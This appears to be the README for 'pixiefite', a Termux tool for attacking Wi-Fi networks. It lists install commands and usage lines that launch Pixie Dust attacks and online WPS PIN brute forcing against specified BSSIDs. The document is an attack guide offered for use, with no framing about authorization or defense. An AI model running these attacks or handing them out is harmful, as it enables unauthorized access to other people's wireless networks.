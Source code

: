 # pixiefite
Hack vulnerable Wi-Fi networks using Termux (rooted)

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
git clone https://github.com/vladimir127001/pixiefite
cd pixiefite
chmod +x pixiefite0.0.1.py
```

#### Help : `sudo python main --help`
#### Example : `sudo python pixiefite0.0.1.py -i -K`

#### Usage: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python pixiefite0.0.1.py -i -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python pixiefite0.0.1.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python pixiefite0.0.1.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

---
